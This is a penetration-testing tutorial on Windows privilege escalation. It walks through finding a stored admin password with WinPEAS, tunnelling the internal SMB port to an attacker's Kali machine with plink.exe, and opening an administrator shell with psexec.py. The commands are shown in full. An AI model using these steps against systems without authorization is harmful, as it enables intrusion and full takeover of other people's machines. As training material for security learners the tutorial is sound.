








Introduction
In this article, we will cover how to escalate privileges on a Windows system using Port Forwarding. First, let us understand what port forwarding is and why it matters in the context of privilege escalation. After compromising a machine, there may be internal ports running services that are only accessible from within the target system. These internal services could be vulnerable or running with elevated privileges, making them useful for privilege escalation. However, since they are not exposed externally, we need a way to reach them from our attacking machine -- and that is where port forwarding comes in.
Walkthrough
Step 1: Initial Access and Enumeration with WinPEAS
As usual, we start with a limited-privilege user account on the target system (the user account). We transfer WinPEAS to the compromised system, as we have explained in previous parts of this series. After running WinPEAS, we review the results together. Notably, WinPEAS discovers the administrator's password stored in the Windows registry.

Step 2: Scanning for External Ports with Nmap
Now that we have the admin credentials, we need a way to log in as the administrator. We run an Nmap scan against the target to check whether SMB (port 445) or RDP (port 3389) are open externally, since either of these would allow us to authenticate as the admin user.
After scanning, we observe that neither the SMB port nor the RDP port is accessible from the outside.


Step 3: Checking for Internal Ports
Even though SMB and RDP are not exposed externally, they may still be listening internally. We can verify this by running the following command on the compromised system:
netstat -a
The output confirms that SMB (port 445) is indeed open internally. The question now becomes: how do we connect to an internal port from our attacker machine?

Step 4: Setting Up SSH Remote Port Forwarding with plink.exe
We will use SSH together with plink.exe (the command-line version of PuTTY) to create a remote port forward. This opens a port on our Kali machine that tunnels traffic through to the internal SMB port on the Windows target.
Before we begin, we need to modify the SSH configuration on our Kali machine. Open the SSH configuration file:
/etc/ssh/sshd_config
Find the PermitRootLogin directive, remove the # comment character in front of it, and change its value to yes:
PermitRootLogin yes
Then restart the SSH service to apply the changes:
service ssh restart

Step 5: Transferring plink.exe and Establishing the Tunnel
Transfer plink.exe to the compromised Windows machine, then execute the following command from the target system:
plink.exe root@<kali-ip> -R 445:127.0.0.1:445
Replace <kali-ip> with the IP address of your Kali machine. Leave everything else as-is. The tool will prompt you for the root password on your Kali machine. After entering it, the internal Windows SMB port will be forwarded and accessible on your Kali machine.

Step 6: Verifying the Port Forward
To confirm that the SMB port has been successfully forwarded to our Kali machine, run:
netstat -tlp
The output should show port 445 listening on the Kali machine. We have successfully pulled the internal Windows SMB port over to our attacker system, and we can now connect to it.


Step 7: Gaining an Admin Shell with psexec.py
Now we use psexec.py (from the Impacket suite) to authenticate to the forwarded SMB port using the admin credentials we discovered earlier. We provide the tool with the local IP address (127.0.0.1 since the port is now forwarded to our machine), along with the admin username and password. The tool uploads a malicious service binary and opens a command shell with administrator privileges:
psexec.py admin:<password>@127.0.0.1 cmd
We now have a fully elevated administrative shell on the target system through port forwarding.
Tools Referenced
- WinPEAS -- Credential discovery and enumeration
- Nmap -- Port scanning
- plink.exe -- SSH tunneling / remote port forwarding
- psexec.py -- Remote command execution via SMB
